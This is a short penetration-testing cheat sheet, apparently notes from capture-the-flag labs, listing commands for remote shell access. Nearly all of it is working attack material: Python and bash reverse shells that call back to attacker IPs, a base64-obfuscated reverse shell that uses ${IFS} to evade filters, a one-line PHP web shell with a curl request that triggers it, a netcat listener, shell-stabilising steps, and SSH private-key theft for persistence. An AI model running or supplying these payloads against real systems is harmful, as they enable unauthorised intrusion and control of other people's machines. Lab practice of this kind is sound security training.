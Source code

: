 - `python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'` Python 

- `If we can execute commands on the target, we can try to create MSFVenom payload and execute it inside target`
### SEND:
- `echo 'sh -i >& /dev/tcp/10.10.14.6/9999 0>&1' | base64 ` - Convert reverse shell to base64
- `bash -c("sh -i >& /dev/tcp/10.10.14.12/4444 0>&1")` - Execute the reverse shell
- `echo${IFS}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjIvOTk5OSAwPiYxCg==" | base64${IFS} -d | bash` - Send the payload
## WEB SHELL
### OPEN:
- `<?php SYSTEM($_REQUEST['cmd']); ?>`
### SEND:
- `curl 10.10.11.116/shell.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.60/443 0>&1"'`
- `bash -c 'sh -i >%26 /dev/tcp/10.10.14.12/9999 0>%261'`

## LISTENING SHELL:
- `nc -lnvp 9999`

## UPGRADE SHELL:
### STABILIZE:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
"CTRL+Z"
stty raw -echo; fg
export TERM=xterm
```

### PROPER SHELL:
#### Victim
```
ssh-keygen
cd ./ssh
cat id_rsa.pub > authorized_keys
chmod 700 ~/
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_key
```
#### Host
- `nano id_rsa`
- (Copy from id_rsa victim)
- `chmod 400 id_rsa`
- `ssh -i id_rsa matt@10.10.11.136`
